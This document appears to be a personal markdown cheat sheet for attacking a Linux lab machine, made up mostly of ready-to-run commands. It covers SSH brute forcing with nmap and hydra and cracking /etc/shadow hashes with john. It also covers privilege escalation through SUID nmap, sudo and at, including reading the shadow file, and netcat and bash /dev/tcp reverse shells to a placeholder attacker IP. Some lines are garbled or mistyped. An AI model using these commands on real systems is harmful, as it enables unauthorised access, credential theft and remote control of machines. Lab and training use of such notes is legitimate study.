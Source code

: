 #Linux Exploitation
```bash
nmap 2.0.0.22 target 1(metasploit)
```
- target 1 - port 22 ssh open

Lets try brutforce login
```bash
nmap 2.0.0.22 -p 22 --script ssh-brute
```
- After sucessfull passowrd cracking login with the crdentials
```bash
ssh administrator@2.0.0.22
whoami
id if uid=1001 - secondory regular user so 1000 is regular user
cat /etc/password - you can find the other users
```

Horizontal escalation
-------------------------------
since we know the user name lets try the password attack
```bash
hydra -l marlinspike -P /usr/share/wordlists/john/lst 2.0.0.22 ssh -e nsr -t 4
```

- anothe way to know the password is
```bash
cat /etc/shadow - contails passowrd hashes
```
- copy the hashes in a file in kali and try john
```bash
nano hash.txt
john hash.txt
# for the already cracked hashes
john --show hash.txt
```
check weather the /etc/password and /etc/shadow are having write permissions

-To find the suid files
```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
```
- if the linux machine is having **nmap** installe in suid file then we can use it to escalate the privileges
```bash
nmap --interactive
nmap> ! cat /etc/shadow
nmap> ! cat /etc/passwd
nmap> ! nc <kali IP> 1234 -e /bin/bash

```
- In kali machine run a netcat listener
```bash
nc -lvp 1234    
```
- GTFOBINS is helpful to find the suid files and how to use them to escalate the privileges
Gtfobins link: https://gtfobins.github.io/

- if there is any error while connecting try this 
```bash
kali-tweaks
```
- This box will opens now select **Hardining** then enable **SSH CLIENT** then click on **Apply**  button 

<img src="image-1.png" alt="alt text" width="400"/>
<img src="image-2.png" alt="alt text" width="400"/>
<img src="image-3.png" alt="alt text" width="400"/>
- if you are able to see the ALL in the **sudo -l** then you can run any command with sudo
````bash
sudo -l
````
- if you are able to see the ALL in the **sudo -i** 
````bash
sudo -i
````
- if you see the **at**  try this
```bash
COMMAND="id > hi.txt"
echo "$COMMAND" | at now
cat hi.txt

COMMAND="cat /etc/shadow > hi.txt"
echo "$COMMAND" | at now
cat hi.txt

or you can try bellow command

echo "whoami > hi.txt" | at now
cat hi.txt

```
## Kernal Vulnerabilities and Application Vulnerabilities

- To list all the packeges installed in the linux machine
```bash
apt list --installed
dpkg --list
dpkg -l
dpkg -l | grep -v '^ii  lib'
apt list --installed | grep -v '^lib'
ls /usr/share/applications/
```
- If you don't have proper shell then try this command if it having python or bash or sh
```bash
python -c 'import pty; pty.spawn("/bin/bash");'
bash -i >& /dev/tcp/<kali IP>/1234 0>&1
sh -i >& /dev/tcp/<kali IP>/1234 0>&1
```


